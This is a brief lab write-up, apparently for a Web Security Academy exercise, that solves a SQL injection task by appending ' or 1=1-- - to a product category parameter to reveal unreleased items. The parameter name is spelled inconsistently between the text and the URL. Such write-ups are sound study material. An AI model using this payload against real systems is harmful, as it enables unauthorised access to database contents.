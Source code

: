 # Retrieving Hidden Data

### Objective

- Retrieve all products from the backend database, including unreleased products

### Solution

The `categories` query parameter is vulnerable to a basic SQL Injection vulnerability. The solution is to this is:

```
https://<random-id>.web-security-academy.net/products?catagories=Accessories' or 1=1-- -
```
